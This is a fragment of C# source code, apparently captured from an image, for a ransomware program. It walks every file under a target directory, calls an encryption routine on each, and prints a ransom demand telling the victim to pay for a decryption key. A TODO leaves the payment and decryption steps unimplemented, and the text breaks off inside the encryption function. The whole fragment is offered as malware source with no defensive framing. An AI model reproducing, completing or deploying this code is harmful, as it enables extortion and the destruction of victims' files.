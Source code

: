 ```csharp
    class Program

    {

        static void Main(string[] args)

        {

            string targetDirectory = @"C:\TargetDirectory\"; // Specify the target directory to encrypt



            string[] files = Directory.GetFiles(targetDirectory, "*", SearchOption.AllDirectories);



            foreach (string file in files)

            {

                try

                {

                    EncryptFile(file); // Call the encryption function for each file

                }

                catch (Exception ex)

                {

                    Console.WriteLine("Error encrypting file: " + ex.Message);

                }

            }



            // Display the ransom message

            Console.WriteLine("All files encrypted. Pay the ransom to get the decryption key.");

            Console.WriteLine("Instructions on how to pay will be provided.");



            // TODO: Implement the ransom payment process and decryption logic

        }



        static void EncryptFile(string filePath)

        {

            byte[] encryptedData;



```